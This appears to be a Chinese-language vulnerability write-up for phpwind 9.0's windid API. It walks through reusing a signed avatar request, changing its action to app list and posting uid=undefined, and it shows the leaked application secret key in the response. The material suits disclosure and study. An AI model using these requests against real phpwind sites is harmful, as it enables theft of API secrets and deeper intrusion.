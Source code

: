 去头像页面查看一下源文件

[`localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar`](http://localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar)

![](img/16220425e3ff6c16c6caee43356d907e6b0bac8b.jpg)

解出 urldecode 得：

[`localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

去掉

&avatar=[`localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

然后记得，还需要 POST 一个 uid 等于 undefined

把 doAvatar 换成 list,avatar 换成 app 得：

[`localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash`](http://localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash)

POST：uid=undefined

得：

{"1":{"id":"1","name":"phpwind9.0","siteurl":"http:\/\/localhost\/phpwind","siteip":"","secretkey":"73e3dcdd733c7c3733c17273a624e162","apifile":"windid.php","charset":"gbk","issyn":"1","isnotify":"1"}}

![](img/16220929812927fb46cb3f7f5d75bd5ba3c50dee.jpg)
